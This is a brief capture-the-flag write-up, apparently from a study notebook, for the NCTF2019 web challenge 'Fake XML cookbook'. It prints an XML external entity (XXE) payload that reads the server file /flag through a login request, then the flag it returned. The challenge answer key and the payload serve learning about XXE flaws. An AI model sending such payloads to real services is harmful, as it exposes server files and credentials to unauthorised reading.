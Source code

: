 # Web

## [NCTF2019]Fake XML cookbook

> 知识点：XXE攻击

```xml
<?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY foo SYSTEM "file:///flag">]>
<user><username>&foo;</username><password>0</password></user>
```

> flag{0d3eff71-790b-478b-b3e8-25c89c2519bf}